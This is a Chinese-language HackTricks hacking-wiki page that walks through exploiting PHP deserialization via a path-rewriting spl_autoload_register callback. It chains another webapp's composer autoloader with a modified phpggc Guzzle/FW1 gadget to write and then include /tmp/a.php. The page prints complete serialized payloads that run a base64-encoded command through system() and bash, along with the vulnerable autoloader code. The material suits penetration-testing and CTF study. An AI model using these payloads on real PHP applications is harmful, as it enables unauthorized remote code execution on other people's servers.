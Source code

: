 # PHP - 反序列化 + 自动加载类

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

首先，您应该检查什么是 [**自动加载类**](https://www.php.net/manual/en/language.oop5.autoload.php)。

## PHP 反序列化 + spl\_autoload\_register + LFI/小工具

我们处于一种情况，发现了一个 **webapp 中的 PHP 反序列化**，并且 **没有** 库在 **`phpggc`** 中易受小工具攻击。然而，在同一个容器中有一个 **不同的 composer webapp，具有易受攻击的库**。因此，目标是 **加载另一个 webapp 的 composer 加载器**，并利用它 **加载一个将利用该库的小工具**，该小工具来自易受反序列化攻击的 webapp。

步骤：

* 您发现了一个 **反序列化**，并且 **当前应用代码中没有任何小工具**
* 您可以利用 **`spl_autoload_register`** 函数，如下所示，**加载任何本地文件，扩展名为 `.php`**
* 为此，您使用一个反序列化，其中类的名称将位于 **`$name`** 中。您 **不能在序列化对象的类名中使用 "/" 或 "."**，但是 **代码** 正在 **将下划线** ("\_") **替换为斜杠** ("/")。因此，像 `tmp_passwd` 这样的类名将被转换为 `/tmp/passwd.php`，代码将尝试加载它。\
一个 **小工具示例** 将是：**`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
如果你有一个 **文件上传** 并且可以上传一个 **`.php` 扩展名** 的文件，你可以 **直接利用这个功能** 并获得 RCE。
{% endhint %}

在我的情况下，我没有这样的东西，但在 **同一个容器** 内有另一个 composer 网页，里面有一个 **易受攻击的 `phpggc` 小工具**。

* 要加载这个其他库，首先你需要 **加载那个其他 web 应用的 composer 加载器**（因为当前应用的加载器无法访问另一个的库。） **知道应用的路径**，你可以很容易地实现这一点：**`O:28:"www_frontend_vendor_autoload":0:{}`**（在我的情况下，composer 加载器在 `/www/frontend/vendor/autoload.php`）
* 现在，你可以 **加载** 其他 **应用的 composer 加载器**，所以是时候 **`生成 phpgcc`** **有效负载** 来使用。在我的情况下，我使用了 **`Guzzle/FW1`**，这让我可以 **在文件系统内写入任何文件**。
* 注意：**生成的小工具没有工作**，为了使其工作，我 **修改** 了那个有效负载 **`chain.php`** 的 phpggc，并将 **所有属性** 的类 **从私有改为公共**。如果不这样做，反序列化字符串后，创建的对象的属性将没有任何值。
* 现在我们有办法 **加载其他应用的 composer 加载器** 并且有一个 **有效的 phpggc 有效负载**，但我们需要 **在同一个请求中执行此操作，以便在使用小工具时加载加载器**。为此，我发送了一个序列化数组，包含两个对象，如下所示：
* 你可以看到 **首先加载加载器，然后是有效负载**

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* 现在，我们可以**创建和写入文件**，但是用户**无法在web服务器的任何文件夹中写入**。因此，如您在有效负载中所见，PHP调用**`system`**并在**`/tmp/a.php`**中创建了一些**base64**。然后，我们可以**重用我们用于LFI的第一种有效负载**来加载另一个web应用程序的composer加载器**以加载生成的`/tmp/a.php`**文件。只需将其添加到反序列化小工具中：&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**有效载荷摘要**

* **加载同一容器中另一个webapp的composer自动加载**
* **加载phpggc小工具**以利用另一个webapp的库（最初易受反序列化攻击的webapp的库中没有任何小工具）
* 小工具将**在/tmp/a.php中创建一个包含PHP有效载荷**的文件，里面有恶意命令（webapp用户无法在任何webapp的任何文件夹中写入）
* 我们有效载荷的最后部分将使用**加载生成的php文件**来执行命令

我需要**调用这个反序列化两次**。在我的测试中，第一次创建了`/tmp/a.php`文件但没有加载，第二次则正确加载。

{% hint style="success" %}
学习与实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR分享黑客技巧。

</details>
{% endhint %}

